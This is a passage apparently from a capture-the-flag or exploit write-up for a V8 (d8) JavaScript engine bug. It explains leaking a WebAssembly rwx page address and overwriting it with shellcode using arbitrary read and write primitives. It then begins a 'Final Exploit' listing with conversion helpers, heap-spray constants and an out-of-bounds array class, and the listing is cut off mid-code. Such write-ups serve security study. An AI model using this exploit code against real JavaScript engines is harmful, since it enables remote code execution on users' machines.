 The idea is to leak the address of the `rwx` memory page and write shellcode to it with the arbitrary write we have by controlling the `elements` pointer of a ArrayBuffer. After doing that and calling the wasm function it will call the `rwx` page where we have written our shellcode.

To leak the address of `rwx` page we do the following:

```js
let [, wasm_trused_data] = fto2i(corrupted.arb_read(corrupted.addrof(wasm_instance) + 8));
let code_ptr = ftoi(corrupted.arb_read(wasm_trused_data + 0x30));
```

In the code above `code_ptr` has the value of the `rwx` memory page. After that we can just write our shellcode to it with the arbitrary write and call (in this case) `shell()` to make d8 jump to it.

## Final Exploit

```js
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) {
         f64_buf[0] = val;
         return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}
function itof(val) {
         u64_buf[0] = Number(val & 0xffffffffn);
         u64_buf[1] = Number(val >> 32n);
         return f64_buf[0];
}
function fto2i(val) {
    f64_buf[0] = val;
    return [u64_buf[0], u64_buf[1]]
}
function _2itof(v1, v2) {
    u64_buf[0] = v1;
    u64_buf[1] = v2;
    return f64_buf[0];
}
function i_to_smi(v) {
    return v << 1;
}
function smi_to_i(v) {
    v >> 1;
}

const FILL_THING = 1.1;
const ARRAY_SIZE = 168;
const ARRAY_SIZE_TWO = 500;
const MAIN_SPRAY_COUNT = 40;
const SPRAY_COUNT = 1024;

class OobArray {
    // Self-overlapping array and offset to the header of the JSArray
    // Next is the array directly after `OobArray`
    constructor(array, offset) {
        this.array = array;
        this.offset = offset;
    }
    get_map_ptr() {
        let [map, _] = fto2i(this.array[this.offset]);
        return map;
    }
    get_elements_ptr() {
        let [elts, _] = fto2i(this.array[this.offset + 1]);
```